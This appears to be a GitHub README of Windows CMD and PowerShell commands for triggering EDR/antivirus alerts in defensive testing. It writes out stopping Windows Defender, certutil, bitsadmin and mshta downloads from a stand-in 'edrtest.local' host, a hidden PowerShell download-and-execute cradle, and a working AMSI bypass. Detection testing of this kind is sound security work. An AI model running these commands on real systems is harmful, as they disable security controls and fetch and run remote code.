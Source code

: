 # EDR Trigger (Non-Malicious Testing)

> [!WARNING]
>
> Set of commands are intended for **non-malicious testing** to trigger simple EDR/AV alerts or detections. Although all these are non-malicious and use non-routable TLD (`.local`), they should only be executed in production environments if permitted by **compliance policies or explicit exceptions**.
>
> _*Proceed at your own risk*_.

## CMD

1. **Tasklist Enumeration**  
```cmd
cmd.exe /c tasklist
```

2. **Disabling Windows Defender**  
```cmd
cmd.exe /c sc stop WinDefend
```

3. **Certutil Download**  
```cmd
cmd.exe /c certutil.exe -urlcache -split -f http://7-zip.org/a/7z2405-x64.exe 7zip_installer.exe
```

4. **LOLBAS: Rundll32 (JavaScript Execution)**  
```cmd
cmd.exe /c rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write('Hello');"
```

5. **Whoami (Enumeration)**  
```cmd
cmd.exe /c whoami > %TEMP%\whoami.txt
```

6. **MSHTA Launching Remote Script**  
```cmd
cmd.exe /c mshta.exe http://edrtest.local/evil.hta
```

7. **BITSAdmin Downloading Payload**  
```cmd
cmd.exe /c bitsadmin /transfer myjob /download /priority high http://edrtest.local/file.exe C:\Users\Public\file.exe
```

## Powershell

1. **Encoded PowerShell**  
```powershell
powershell -EncodedCommand CgpoZWxsbyBlZHI=
```

2. **PowerShell Abuse**  
```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://edrtest.local/ps_script.ps1')"
```

3. **AMSI Bypass**  
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

4. **Malicious Macro Trigger**  
```powershell
Shell("powershell -w hidden -nop -c iex(iwr http://edrtest.local/ps_script.ps1)")
```

5. **COM Abuse (Excel COM Object Execution)**  
```powershell
$xls = New-Object -ComObject Excel.Application; $xls.Visible = $false; $xls.Quit()
```
